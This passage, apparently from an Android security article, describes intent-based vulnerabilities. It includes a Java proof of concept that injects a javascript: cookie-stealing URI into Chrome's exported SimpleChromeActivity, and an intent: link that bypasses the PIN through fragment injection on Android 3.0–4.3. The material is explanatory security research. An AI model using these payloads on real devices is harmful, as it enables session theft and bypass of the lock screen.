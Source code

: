     <activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
            </intent-filter>
    </activity>

Class "com.google.android.apps.chrome.SimpleChromeActivity" is configured,   but "Android:exported" is not set to "false". Malicious applications first call the class and set the data as "http://Google.com" . After that, set data to malicious js when the class is called again, for example 'javascript:alert(document.cookie)'. The malicious code will execute in domain http://Google.com. "Com.google.android.apps.chrome. SimpleChromeActivity" class can be opened by Android API or am (activityManager). POC is as follows

    public class TestActivity extends Activity {
        @Override
        public void onCreate(Bundle savedInstanceState) {
            super.onCreate(savedInstanceState);
            Intent i = new Intent();
                    ComponentName comp = new ComponentName(
                                     "com.android.chrome",
                                        "com.google.android.apps.chrome.SimpleChromeActivity");
                    i.setComponent(comp);
                    i.setAction("android.intent.action.VIEW");
                    Uri data = Uri.parse("http://google.com");
                    i.setData(data);
    
                    startActivity(i);
    
                        try {
                            Thread.sleep(5000);
                            }
                              catch (Exception e) {}
    
                    data = Uri.parse("javascript:alert(document.cookie)");  
                    i.setData(data);
    
                    startActivity(i);
        }
    }

**Case 5:implicit starting intent contains sensitive data**

N/a public case, the attack model is as shown below.

![image](https://quip.com/blob/edcAAAmcC2M/laqpzWJWfIZAhQBDv3ZAow?s=xYFkAvn63ajW)

**Case 6:Fragment injecting (bypassing the PIN+ denial of service)**

Fragment may be explained in another article, so I just mentioned it here.

    <a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
    16、bypass Pin android 3.0-4.3 （selector）
    </a><br>
